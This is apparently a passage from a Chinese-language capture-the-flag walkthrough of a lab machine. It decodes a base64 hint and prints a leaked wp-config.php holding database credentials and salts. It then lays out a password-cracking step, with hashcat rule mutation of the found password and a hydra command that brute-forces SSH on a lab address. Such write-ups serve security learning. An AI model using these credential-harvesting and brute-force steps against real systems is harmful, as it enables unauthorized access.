 ```
$ echo "VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw==" | base64 -d
That password alone won't help you! Hashcat says rules are rules
```

`wp-config.php`

```php
<?php

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define('FS_METHOD', 'direct');

define('WP_SITEURL', 'http://redrocks.win');
define('WP_HOME', 'http://redrocks.win');


define('AUTH_KEY',         '2uuBvc8SO5{>UwQ<^5V5[UHBw%N}-BwWqw|><*HfBwJ( $&%,(Zbg/jwFkRHf~v|');
define('SECURE_AUTH_KEY',  'ah}<I`52GL6C^@~x C9FpMq-)txgOmA<~{R5ktY/@.]dBF?keB3}+Y^u!a54 Xc(');
define('LOGGED_IN_KEY',    '[a!K}D<7-vB3Y&x_<3e]Wd+J]!o+A:U@QUZ-RU1]tO@/N}b}R@+/$+u*pJ|Z(xu-');
define('NONCE_KEY',        ' g4|@~:h,K29D}$FL-f/eujw(VT;8wa7xRWpVR: >},]!Ez.48E:ok 8Ip~5_o+a');
define('AUTH_SALT',        'a;,O<~vbpL+|@W+!Rs1o,T$r9(LwaXI =I7ZW$.Z[+BQ=B6QG7nr+w_bQ6B]5q4c');
define('SECURE_AUTH_SALT', 'GkU:% Lo} 9}w38i:%]=uq&J6Z&RR#v2vsB5a_ +.[us;6mE+|$x*+ D*Ke+:Nt:');
define('LOGGED_IN_SALT',   '#`F9&pm_jY}N3y0&8Z]EeL)z,$39,yFc$Nq`jGOMT_aM*`<$9A:9<Kk^L}fX@+iZ');
define('NONCE_SALT',       'hTlFE*6zlZMbqluz)hf:-:x-:l89fC4otci;38|i`7eU1;+k[!0[ZG.oCt2@-y3X');

...
```

尝试利用`john R3v_m4lwh3r3_k1nG!!`进行ssh连接,但是失败了,尝试去读三个用户下的`.ssh`目录中的内容也失败了

最后结合题目提示,尝试用hashcat去进行基于规则的爆破,hashcat的规则位于`/usr/share/hashcat/rules`目录下

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201161619831.png)

用`hydra`去爆破ssh,`hydra -l john -P out.txt 192.168.56.101 ssh`
